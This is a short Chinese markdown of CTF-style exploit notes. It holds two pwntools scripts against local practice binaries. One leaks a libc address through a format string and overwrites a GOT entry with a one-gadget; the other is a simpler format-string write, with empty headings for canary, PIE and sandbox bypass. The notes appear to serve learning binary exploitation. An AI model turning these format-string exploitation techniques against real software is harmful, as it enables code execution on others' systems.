 

# 格式化字符串

## fmt2_x64

:star:exp:

```python
from pwn import *
import sgtlibc
p = process("./fmt2_x64")

p.sendafter(b">>>\n", "%39$p")
libc = int(p.recv(14).decode("utf-8"), 16) - 0x21c87
print(hex(libc))
one = libc + 0x4f420
context.arch = 'amd64'
success(hex(one))
payload = fmtstr_payload(6, {0x601028:p64(one)})
p.sendline(payload)

p.interactive()
```

## fmt3_x64

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
io = process("./fmt3_x64")
payload = fmtstr_payload(6,{0x6009b8:0x4006f8})
print(payload)
io.recvuntil(b">>>")
gdb.attach(io)
pause()
io.sendline(payload)
io.interactive()
```



# 保护绕过

## canary

## PIE

## sandbox
